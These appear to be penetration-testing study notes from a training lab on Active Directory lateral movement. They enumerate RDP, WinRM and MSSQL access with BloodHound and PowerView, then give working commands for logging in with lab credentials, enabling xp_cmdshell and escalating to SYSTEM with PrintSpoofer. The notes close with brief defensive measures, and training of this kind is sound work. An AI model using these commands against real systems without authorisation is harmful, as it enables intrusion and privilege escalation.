 After gaining a foothold in the domain, our goal is to escalate privileges, move laterally, or compromise high-value targets. There are multiple ways to achieve this, including:

- **Remote Desktop Protocol (RDP)**
- **PowerShell Remoting (WinRM)**
- **MSSQL Server Exploitation**

We use **PowerView, BloodHound, and other tools** to enumerate access rights and then leverage that access for further attacks.

---

### **1. Enumerating Remote Access Rights**

Using **BloodHound**:

- **CanRDP** → User can access via **RDP**.
- **CanPSRemote** → User can access via **WinRM**.
- **SQLAdmin** → User has **sysadmin** rights on SQL Server.

Using **PowerView**:

- Enumerate **Remote Desktop Users** on a target machine:
```powershell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```
If `Domain Users` is in the list, then **any domain user** can RDP into the host.


- Enumerate **WinRM (PSRemoting) Users**:
```powershell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```
If a specific user appears (e.g., `INLANEFREIGHT\forend`), that user can **PSRemote** into the machine.

---

### **2. Remote Desktop Protocol (RDP)**

**Scenario:**  
If a user has **RDP rights** on a target, we can log in and explore:

- Escalate privileges
- Find credentials
- Launch further attacks

#### **Using BloodHound to Identify RDP Access**

- Check if `Domain Users` have **RDP or local admin** rights on any machines.
- Run pre-built queries like **Find Workstations where Domain Users can RDP**.

#### **Testing RDP Access**

- From **Windows**:
```powershell
mstsc.exe /v:ACADEMY-EA-MS01
```

- From **Linux**:
```bash
xfreerdp /u:forend /p:<password> /v:172.16.5.150
```

---

### **3. PowerShell Remoting (WinRM)**

If a user has **WinRM access**, we can execute commands remotely.

#### **Checking WinRM Access**

Using **BloodHound**:

- Run a **custom Cypher query** to check which users have **CanPSRemote** privileges.

#### **Using PowerShell to Access Remote Host**
```powershell
$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
```
Successfully connecting allows remote command execution.

#### **Using `evil-winrm` from Linux**

- Install **evil-winrm**:
```bash
gem install evil-winrm
```

- Connect to the target:
```powershell
evil-winrm -i 10.129.201.234 -u forend
```

---

### **4. MSSQL Server Exploitation**

If we find **SQL Admin privileges**, we can execute OS commands via **MSSQL Server**.

#### **Identifying MSSQL Instances**

Using **PowerUpSQL**:
```powershell
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
```

Example Output:
```powershell
ComputerName     : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL
Instance         : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL,1433
DomainAccount    : damundsen
```

#### **Authenticating to MSSQL Server**

Using **PowerUpSQL**:
```powershell
Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "INLANEFREIGHT\damundsen" -password "SQL1234!" -query 'Select @@version'
```
Confirms successful SQL login.

Using **mssqlclient.py** from **Linux**:
```bash
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```
If successful, we get an interactive SQL shell.

Enabling Command Execution on MSSQL
```bash
enable_xp_cmdshell
xp_cmdshell 'whoami'
```
If **xp_cmdshell** is enabled, we can execute system commands.

---

### **5. Privilege Escalation via MSSQL**

Once inside SQL Server, check user privileges:
```bash
xp_cmdshell 'whoami /priv'
```

If **SeImpersonatePrivilege** is enabled, escalate privileges using:
- **JuicyPotato**
- **PrintSpoofer**
- **RoguePotato**

Example:
```bash
xp_cmdshell 'PrintSpoofer64.exe -i -c cmd'
```
Escalates to **SYSTEM**.

---
### **6. Summary & Next Steps**

**Key Takeaways:**
1. **Enumerate remote access rights** using **PowerView & BloodHound**.
2. **Leverage RDP, WinRM, or MSSQL for lateral movement**.
3. **Escalate privileges** using **SQL Server exploits & system vulnerabilities**.

**Defensive Measures:**
- **Restrict RDP & WinRM access** to admins.
- **Monitor MSSQL privileged users**.
- **Audit and monitor login activity** for suspicious behavior.